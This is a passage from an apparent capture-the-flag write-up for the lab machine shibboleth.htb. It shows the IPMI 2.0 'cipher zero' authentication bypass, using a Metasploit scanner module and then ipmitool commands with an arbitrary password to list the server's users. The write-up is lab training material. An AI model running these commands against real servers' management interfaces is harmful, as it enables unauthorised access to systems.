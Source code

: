The server is running, IPMI version 2.0 and it supports multiple user authentication. We can also check the running version 2.0 is vulnerable to cipher type 0, an indicator that the client wants to use clear-text authentication, actually allows access with any password.

[The Infamous Cipher Zero](http://fish2.com/ipmi/cipherzero.html)

```
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > options

Module options (auxiliary/scanner/ipmi/ipmi_cipher_zero):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     shibboleth.htb   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads

msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > run

[*] Sending IPMI requests to 10.x.x.x->10.x.x.x (1 hosts)
[+] 10.x.x.x:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This version is vulnerable to cipher type 0. Let’s find the users via ipmitool.

```
⛩\> ipmitool -I lanplus -C 0 -H shibboleth.htb -v -U Administrator -P password user list
Running Get PICMG Properties my_addr 0x20, transit 0, target 0x20
Error response 0xc1 from Get PICMG Properities
Running Get VSO Capabilities my_addr 0x20, transit 0, target 0x20
Invalid completion code received: Invalid command
Discovered IPMB address 0x0
ID  Name             Callin  Link Auth  IPMI Msg   Channel Priv Limit
1                    true    false      false      USER
2   Administrator    true    false      true       USER
3                    true    false      false      Unknown (0x00)
4                    true    false      false      Unknown (0x00)
5                    true    false      false      Unknown (0x00)
6                    true    false      false      Unknown (0x00)
7                    true    false      false      Unknown (0x00)
8                    true    false      false      Unknown (0x00)
```

It goes on up to ID number 63 and we can check the maximum ID’s available on the server.

```
⛩\> ipmitool -I lanplus -C 0 -H shibboleth.htb -U Administrator -P password user summary
Maximum IDs         : 63
Enabled User Count  : 1
Fixed Name Count    : 0
```
